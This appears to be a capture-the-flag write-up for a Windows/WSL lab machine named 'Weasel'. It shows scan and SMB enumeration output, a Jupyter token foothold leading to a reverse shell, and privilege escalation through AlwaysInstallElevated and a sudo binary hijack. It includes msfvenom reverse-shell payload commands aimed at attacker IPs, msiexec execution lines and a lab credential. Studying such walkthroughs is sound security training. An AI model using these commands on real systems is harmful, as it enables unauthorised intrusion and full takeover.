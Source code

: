 # Weasel

**Hostname:**
`DEV-DATASCI-JUP`

**OS:**
`Windows_NT`
with
`WSL Linux`

**Users:**
`husky`
`dev-datasci-lowpriv`

**Credentials:**
`dev-datasci-lowpriv:wUqnKWqzha*W!PWrPRWi!M8faUn`

## Port Scan:

```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-08T19:04:24+00:00
|_ssl-date: 2025-06-08T19:04:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2025-06-07T18:41:32
|_Not valid after:  2025-12-07T18:41:32
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8888/tcp  open  http          Tornado httpd 6.0.3
|_http-server-header: TornadoServer/6.0.3
| http-robots.txt: 1 disallowed entry 
|_/ 
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-08T19:04:27
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

## Recon:

### SMB:

**NetExec Anonymous user share enumeration:**
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
datasci-team    READ,WRITE      
IPC$            READ            Remote IPC
```

**NetExec user RID enumeration:**
```
500: DEV-DATASCI-JUP\Administrator (SidTypeUser)
501: DEV-DATASCI-JUP\Guest (SidTypeUser)
503: DEV-DATASCI-JUP\DefaultAccount (SidTypeUser)
504: DEV-DATASCI-JUP\WDAGUtilityAccount (SidTypeUser)
513: DEV-DATASCI-JUP\None (SidTypeGroup)
1000: DEV-DATASCI-JUP\dev-datasci-lowpriv (SidTypeUser)
1001: DEV-DATASCI-JUP\sshd (SidTypeUser)
```

**Contents of datasci-team share:**
```
  .ipynb_checkpoints                 DA        0  Thu Aug 25 17:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 17:26:46 2022
  misc                               DA        0  Thu Aug 25 17:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 17:26:46 2022
  papers                             DA        0  Thu Aug 25 17:26:47 2022
  pics                               DA        0  Thu Aug 25 17:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 17:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 17:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 17:26:46 2022
```


### HTTP Port 8888

**Server:**
`Tornado 6.0.3`

**Technologies:**
`Jupyter Notebook`


## Foothold / Privilege Escalation:

### Initial Foothold

I was able to get initial access due to a misconfigured SMB share that allowed anonymous logins and which contained a jupyter notebook access token.

![smb_enumeration](../pictures/weasel/smbenum.png)

![jupyter_token](../pictures/weasel/jupyter_token.png)

And since I found a Jupyter dashboard running on port 8888, I was able to use that token to login into the dashboard.

![jupyter_login](../pictures/weasel/token_login.png)

Inside the dashboard I found a weasel.ipynb file which contained some python code and I was allowed to run it inside the server. I edited the file to contain a python reverse shell command and executed it after setting up my listener.

![python_exploit](../pictures/weasel/rev_shell.png)

![shell_connect](../pictures/weasel/shell_connect.png)

I got a shell inside a WSL Linux container, and inside the user's home directory I found an SSH key for a dev-datasci-lowpriv user. I then used that SSH key to login into the Windows machine directly as that user.

![ssh_key](../pictures/weasel/ssh_key.png)

![ssh_to_windows](../pictures/weasel/ssh_to_windows.png)

---

### Privilege Escalation:

To enumerate quicker I transferred myself winpeas using the SMB share.

![winpeas_upload](../pictures/weasel/winpeas_upload.png)

I ran winpeas as the dev-datasci-lowpriv user and found Windows Autologon credentials and a privilege escalation technique through AlwaysInstallElevated configuration setting. This setting will enable me to install all Windows installer packages (.msi) with administrative privileges.

![winlogon_credentials](../pictures/weasel/winpeas_credentials.png)

![winpeas_privesc](../pictures/weasel/privesc_technique.png)

To exploit this I used msfvenom to craft a malicious .msi file which I uploaded through SMB.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.23.113.200 LPORT=4242 -a x64 --platform Windows -f msi -o exploit.msi`

On the windows machine I entered powershell and ran:
```
runas /u:dev-datasci-lowpriv "msiexec /qn /i exploit.msi"
```

Which triggered a connection as the Administrator user to my netcat listener.

![administrator_user](../pictures/weasel/administrator_user.png)

### Alternative Privilege Escalation

- Using WSL

As the user dev-datasci I ran `sudo -l` and found that I can run the /home/dev-datasci/.local/bin/jupyter as the root user without a password, and since the jupyter binary was not there I copied the /bin/bash binary to /home/dev-datasci/.local/bin and called it jupyter.
So when executing:
`sudo /home/dev-datasci/.local/bin/jupyter`
I get a root shell inside the container.
To access the Windows machine I needed to mount the C drive to the container.

![alternative_privilege_escalation](../pictures/weasel/alternative_privesc.png)

```
cd /mnt
mount -t drvfs 'c:' /mnt/c
```

This will enable me to traverse the Windows C drive and access the Administrator user directory from inside the WSL container.

## Journal:

`mount -t drvfs 'c:' /mnt/c`
- Mount the C drive from the HOST Windows machine to the Linux running inside WSL

Another way of Privilege Escalation would be through the AlwaysInstallElevated configuration setting in the Windows policy.
- AlwaysInstallElevated permits Windows installer packages (.msi) to always be installed with administrative privileges by any user


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```
- Malicious msi file used to exploit

```
runas /u:dev-datasci-lowpriv "msiexec /qn /i evil.msi"
```
- Runs the malicious msi file and connects to the listener